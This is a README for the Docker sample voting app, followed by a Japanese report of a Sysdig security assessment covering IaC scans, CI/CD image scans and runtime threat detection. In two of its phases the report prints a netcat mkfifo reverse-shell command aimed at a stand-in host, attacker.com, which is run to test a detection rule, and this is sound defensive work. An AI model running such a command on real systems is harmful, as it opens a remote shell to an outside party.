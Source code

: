 # Example Voting App

A simple distributed application running across multiple Docker containers.

## Getting started

Download [Docker Desktop](https://www.docker.com/products/docker-desktop) for Mac or Windows. [Docker Compose](https://docs.docker.com/compose) will be automatically installed. On Linux, make sure you have the latest version of [Compose](https://docs.docker.com/compose/install/).

This solution uses Python, Node.js, .NET, with Redis for messaging and Postgres for storage.

Run in this directory to build and run the app:

```shell
docker compose up
```

The `vote` app will be running at [http://localhost:8080](http://localhost:8080), and the `results` will be at [http://localhost:8081](http://localhost:8081).

Alternately, if you want to run it on a [Docker Swarm](https://docs.docker.com/engine/swarm/), first make sure you have a swarm. If you don't, run:

```shell
docker swarm init
```

Once you have your swarm, in this directory run:

```shell
docker stack deploy --compose-file docker-stack.yml vote
```

## Run the app in Kubernetes

The folder k8s-specifications contains the YAML specifications of the Voting App's services.

Run the following command to create the deployments and services. Note it will create these resources in your current namespace (`default` if you haven't changed it.)

```shell
kubectl create -f k8s-specifications/
```

The `vote` web app is then available on port 31000 on each host of the cluster, the `result` web app is available on port 31001.

To remove them, run:

```shell
kubectl delete -f k8s-specifications/
```

## Architecture

![Architecture diagram](architecture.excalidraw.png)

* A front-end web app in [Python](/vote) which lets you vote between two options
* A [Redis](https://hub.docker.com/_/redis/) which collects new votes
* A [.NET](/worker/) worker which consumes votes and stores them in…
* A [Postgres](https://hub.docker.com/_/postgres/) database backed by a Docker volume
* A [Node.js](/result) web app which shows the results of the voting in real time

## Notes

The voting application only accepts one vote per client browser. It does not register additional votes if a vote has already been submitted from a client.

This isn't an example of a properly architected perfectly designed distributed app... it's just a simple
example of the various types of pieces and languages you might see (queues, persistent data, etc), and how to
deal with them in Docker at a basic level.


# 📄 Sysdig TechAssessment - Phase A, B & C 成果レポート

このリポジトリでは、Sysdig Secure を活用したセキュリティ検証（IaC / CI/CD / Runtime）を段階的に実施しました。

---

## 📘 フェーズA：IaCおよびRuntime Policies 初期検証

### ✅ IaC セキュリティスキャン結果（Sysdig CLI Scanner）

- スキャン対象: `k8s-specifications/*.yaml`
- 使用ツール: `sysdig-cli-scanner:1.22.4`
- 実行方法:

```bash
docker run --rm \
  -e SECURE_API_TOKEN=$SYSDIG_SECURE_TOKEN \
  -v $PWD:/iac \
  quay.io/sysdig/sysdig-cli-scanner:1.22.4 \
  --apiurl https://app.au1.sysdig.com \
  --iac scan /iac/k8s-specifications
```

| レベル | 件数 | 内容例 |
|--------|------|--------|
| 🔴 High | 25   | RunAsUser=root, writeable rootFS, NET_RAW許可など |
| 🟠 Medium | 55 | CPU/Memory制限なし, latestタグ, readiness probeなしなど |
| 🟡 Low   | 40 | runAsNonRoot未設定, liveness未定義など |

### 🛠 修正アクション（IaC）

- `securityContext.runAsUser: 1000`
- `readOnlyRootFilesystem: true`
- `capabilities.drop: ["ALL"]`
- `resources.requests/limits` を追加
- `livenessProbe`, `readinessProbe` を明示
- PR #409 にて修正済みYAMLをコミット

### ✅ Runtime Policy 初期実装

- 使用ルール: `Reverse Shell Detected`
- ポリシータイプ: Workload Policy
- スコープ: `container.label.io.kubernetes.pod.namespace is default`
- アクション: `Generate Event`
- 実行コマンド:

```bash
kubectl exec -it vote-XXXXXX -n default -- /bin/sh -c 'rm -f /tmp/f; mkfifo /tmp/f; nc attacker.com 4444 < /tmp/f | /bin/sh > /tmp/f'
```

- Sysdig Secure UI にて検知成功（イベント/プロセス/ユーザー確認済）

---

## 📘 フェーズB：CI/CD 連携によるセキュリティスキャン

### ✅ 実施内容概要

- GitHub Actions を用いた自動スキャン
- 対象：Voting App（vote / worker / result）のDockerイメージと IaCファイル
- 使用アクション：`sysdiglabs/scan-action@v6`

### 🔧 技術構成

- `.github/workflows/sysdig-scan.yml`
- CLIバージョン：`1.22.3`
- Secret：`SYSDIG_SECURE_TOKEN`
- 設定：`continue-on-error: true`

### 🐳 Docker イメージスキャン結果

| サービス | イメージ | 脆弱性数（Critical） | Policy評価 |
|----------|---------|----------------------|------------|
| vote     | vote-app | 113（3件）           | ❌ FAILED  |
| worker   | worker-app | 174（4件）         | ❌ FAILED  |
| result   | result-app | 119（1件）         | ❌ FAILED  |

### 📄 IaC スキャン結果

| レベル | 件数 | 主な検出内容 |
|--------|------|----------------|
| 🔴 High | 25 | serviceAccount未指定, root実行 など |
| 🟠 Medium | 55 | resource未設定, latestタグなど |
| 🟡 Low | 40 | liveness/readiness probe未定義 |

---

## 📘 フェーズC：Runtime Policy による脅威検知

### ✅ 実施内容概要

- `Reverse Shell Detected`, `Unexpected Outbound Connection` を有効化
- namespace=`default` を対象に設定
- イベント：Generate Event, Capture（Kill optional）

### 🛠 実施ステップ

```bash
kubectl exec -it vote-XXXXX -n default -- /bin/sh -c 'rm -f /tmp/f; mkfifo /tmp/f; nc attacker.com 4444 < /tmp/f | /bin/sh > /tmp/f'
```

### 📡 検知ログ（Secure UI）

- Threat：Reverse Shell Detected
- 実行ユーザー：root
- プロセス：`nc.openbsd`, `sh`
- 状態：Open
- Capture：取得済み

---

## ✅ 結論

- ✅ フェーズA：IaC検知 → PR修正、Runtime Policy初期検知を実証
- ✅ フェーズB：CI/CD自動スキャンパイプライン構築
- ✅ フェーズC：Runtime脅威の検出とフォレンジック取得に成功

レポート作成日: 2025-07-21  
作成者: Higaki（SETechAssessment 参加者）
